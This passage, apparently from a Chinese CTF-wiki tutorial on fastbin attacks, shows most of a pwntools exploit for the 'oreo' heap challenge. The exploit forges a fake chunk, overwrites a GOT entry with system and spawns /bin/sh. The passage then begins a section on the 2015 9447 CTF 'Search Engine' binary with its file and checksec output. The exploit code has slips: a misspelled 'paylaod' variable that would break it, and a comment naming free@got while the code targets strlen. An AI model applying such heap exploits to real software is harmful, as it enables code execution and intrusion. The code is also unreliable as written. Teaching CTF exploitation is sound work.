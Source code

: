 ```python
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x40 for fake chunk's next chunk's prev_size # not must
    # 0x100 for fake chunk's next chunk's size
    
    # distance 0x0804a2c0 , 0x0804a2dc(0x0804a2a8's next chunk pointer) : 0x1c
    payload = 0x1c * 'a' + p32(0) # set fake iofle' next to be NULL
    paylaod += p32(0x40) + p32(0x100)
    
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```

当然，该题目也可以使用 `fast bin attack` 中的其它技术来实现，可参考参考文献中的链接。

## 2015 9447 CTF : Search Engine
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2015_9447ctf_search-engine)

### 基本信息

```shell
➜  2015_9447ctf_search-engine git:(master) file search
search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
➜  2015_9447ctf_search-engine git:(master) checksec search
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled

```
